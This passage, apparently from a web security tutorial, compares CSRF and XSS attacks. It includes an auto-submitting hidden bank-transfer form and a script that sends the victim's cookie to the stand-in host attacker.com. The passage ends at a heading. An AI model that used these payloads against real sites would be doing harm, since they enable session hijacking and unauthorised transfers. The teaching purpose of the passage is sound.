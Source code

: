 ## CSRF vs XSS

### Key Differences

| Aspect | CSRF | XSS |
|--------|------|-----|
| **Attack Vector** | Cross-site requests | Injected scripts |
| **Target** | User's actions | User's data/session |
| **Execution** | Server-side | Client-side |
| **User Interaction** | Unintended actions | Data theft/manipulation |
| **Prevention** | CSRF tokens, SameSite | Input validation, output encoding |
| **Scope** | State-changing operations | Any page content |

### CSRF (Cross-Site Request Forgery)
- **Purpose**: Force user to perform unintended actions
- **Method**: Send requests from malicious site to target site
- **Target**: State-changing operations (transfers, purchases, etc.)
- **User Impact**: Unwanted actions performed on their behalf

### XSS (Cross-Site Scripting)
- **Purpose**: Steal data or hijack user sessions
- **Method**: Inject malicious scripts into web pages
- **Target**: User's data, session tokens, cookies
- **User Impact**: Data theft, session hijacking, account takeover

### Example Comparison

**CSRF Attack:**
```html
<!-- Malicious site sends request to bank -->
<form action="https://bank.com/transfer" method="POST" id="csrf-form">
    <input type="hidden" name="to" value="attacker-account">
    <input type="hidden" name="amount" value="1000">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

**XSS Attack:**
```html
<!-- Malicious script injected into vulnerable site -->
<script>
    // Steal user's session cookie
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

## How CSRF Attacks Work
